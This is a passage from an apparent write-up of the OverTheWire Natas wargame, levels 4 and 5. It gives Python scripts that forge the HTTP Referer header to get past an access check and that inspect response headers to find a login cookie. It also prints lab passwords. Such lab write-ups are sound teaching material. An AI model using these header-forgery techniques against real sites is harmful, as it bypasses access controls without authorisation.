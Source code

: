 When you try to login, you get the following error message:

```bash
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

You can solve this one by changing the *referer* of the request with a simple Python script:

```python
import requests

url = "http://natas4.natas.labs.overthewire.org/"
referer = "http://natas5.natas.labs.overthewire.org/"

s = requests.Session()
s.auth = ('natas4', 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ')
s.headers.update({'referer': referer})
r = s.get(url)

print(r.text)
```

Grab the password and go to the next level :

```text
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

## Natas 05 Solution

**URL :** [http://natas5.natas.labs.overthewire.org](http://natas5.natas.labs.overthewire.org) <br/>
**Credentials :** *natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq*

When we try to login, we get the following error message :

```text
Access disallowed. You are not logged in
```

Let's check the headers of the HTTP response with Python :

```python
import requests

url = "http://natas5.natas.labs.overthewire.org/"
s = requests.Session()
s.auth = ('natas5', 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq')
r = s.get(url)

print(r.headers)
```

Here is the response :

```text
{'Date': 'Fri, 29 Mar 2019 20:18:20 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
```

